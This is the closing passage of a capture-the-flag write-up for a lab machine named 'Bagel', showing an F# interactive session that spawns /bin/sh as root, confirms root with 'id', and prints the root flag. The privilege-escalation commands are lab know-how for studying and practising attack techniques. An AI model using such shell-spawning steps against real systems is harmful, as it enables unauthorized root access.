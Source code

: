 ```bash
Copyright (c) Microsoft Corporation. All Rights Reserved.

For help type #help;;

> System.Diagnostics.Process.Start("/bin/sh").WaitForExit();;
sh-5.2# whoami
root
sh-5.2# 
```

```bash
sh-5.2# bash
[root@bagel developer]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[root@bagel developer]# 
```

## Root flag 

```bash
[root@bagel ~]# ls
anaconda-ks.cfg  bagel  root.txt
[root@bagel ~]# cat root.txt 
f06db05f53e3b11971d2b9e341b4396f
[root@bagel ~]# 
```

![](/assets/images/htb-writeup-bagel/final.png)

